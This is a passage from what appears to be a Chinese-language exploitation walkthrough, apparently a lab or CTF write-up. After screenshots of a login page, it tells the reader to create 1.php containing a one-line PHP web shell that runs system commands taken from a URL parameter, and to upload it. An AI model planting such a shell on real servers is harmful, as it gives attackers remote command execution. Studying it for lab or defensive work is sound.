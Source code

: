 ![](images/登录界面.PNG)

![](images/成功登录.PNG)

### 5. 上传新文件
* 创建文件
```
touch 1.php
```
* 文件写入一下内容
```
<?php
system($_GET['cmd']);
?>
```
* 上传文件

